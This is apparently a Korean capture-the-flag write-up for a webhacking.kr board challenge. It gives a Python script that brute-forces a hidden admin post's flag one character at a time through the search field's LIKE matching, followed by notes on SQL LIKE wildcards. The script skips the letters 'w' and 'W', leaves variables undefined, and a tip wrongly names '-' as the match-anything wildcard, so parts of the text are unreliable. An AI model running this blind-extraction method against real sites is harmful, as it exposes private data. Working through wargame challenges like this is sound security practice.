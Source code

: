 # 문제

- 2개의 글이 올려진 게시판이 나옴
- 해당 글을 확인하는 것과 글 내용을 검색하는 기능만 있음
- admin이 쓰여진 글은 확인이 안되고, guest가 쓴 글만 확인 가능
  - 검색은 말그대로 검색임

# 풀이

- 처음으로 쿼터값을 넣어서 sql인젝션을 시도해봄

  - search와 글 확인 링크의 get파라미터 모두 시도해봤으나 안됨
  - 이것저것 막 입력해봤는데 admin 글이 검색됨
  - 이거다

- 코딩을 해보자

  - 브루트포스로 한 글자씩 알아내기

    ```python
    flags = ''
    keys = 'abcdefghijklnmopqrstuvxyzABCDEFGHIJKLNMOPQRSTUVXYZ1234567890!@#*$^&()-[]{}=+_?'
    
    while True:
        flag_find = 0
        for ch in keys:
            print 'trying bruteforce attack using {' + ch + '}'
            data = {'search': flags + ch}
            url = 'https://www.webhacking.kr/'
            res = requests.post(url+page, data=data, cookies=cookies, verify=False)
            if res.text.find('admin') != -1:
                print 'founded!!'
                print 'chr: ' + ch
                print 'current: ' + flags
                flags += ch
                flag_find = 1
                break
    
        if flag_find == 0:
            break
    
    print 'founded flags successfully...'
    print 'flags: ' + flags
    ```

  - 주의할 점

    - `-`를 마지막에 검사해야 한다.
    - 모든 문자를 나타내는 특수문자이기 때문에 미리 검사를 하게되면 대상 문자열이 존재하는한 검사루틴에서 항상 True가 나온다.

- 어쨌든 끝

# 알게된 것

### LIKE 연산자 in sql

- 속성에서 패턴을 검색(=`grep in linux`)

- 표현

  -  `%`

    - 와일드카드(=`* in linux`)

  - `_`

    - 자릿수

  - 예시

    `__ABC%`

    - 3번째부터 5번째까지 ABC를 갖고있는 모든 값

    `__ABC`

    - 3번째부터 5번째까지 ABC를 갖는것으로 끝나는 모든 값